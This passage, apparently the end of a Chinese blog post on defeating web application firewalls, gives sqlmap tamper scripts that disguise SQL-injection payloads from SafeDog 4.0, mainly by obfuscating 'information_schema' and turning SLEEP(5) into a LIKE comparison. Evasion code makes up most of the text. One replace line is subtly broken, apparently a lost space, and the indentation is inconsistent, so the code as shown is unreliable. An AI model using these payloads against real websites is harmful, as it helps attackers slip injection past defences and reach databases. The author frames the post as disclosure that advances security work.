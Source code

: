 ```python
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/") # 将information_schema.这个关键字替换成URL编码后的内容
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str) # 同样替换
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload # 输出Payload 
    return payload # 返回Payload
```


```python

#!/usr/bin/env python
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload):
    if payload:
              pass
              payload = payload.replace("SLEEP(5)","\"0\" LikE Sleep(5)") # 将SLEEP(5)替换成"0" LIKE Sleep(5)，因为Sleep()函数执行后会返回0，0等于0就会返回true
       	      payload = payload.replace("","/*FFFFFFFFFFFFFFFFFFFFFFFFF*/") # 将空格替换
              p = re.compile(r'(\d+)=')
              payload=p.sub(r"'\1'LikE ", payload) #将数字附近的=替换成LikE
    return payload # 返回payload
```

## 0x04 最后的吐槽！

看了这么多例子，你是否有所收获呢？

因为在某社区看到有人高价出售tamper、过狗一句话……讲真，我看不起这种行为。

在挖掘防护产品有缺陷的时候请不要感觉自己多么厉害，也许是运气、偶然、实力。

不管以任何方式，都不能忘记初心。

每一个漏洞的公布，都会给这个时代的技术发展画上浓重的一笔。

再此，感谢云锁、安全狗在职的朋友们的鼓励与支持。















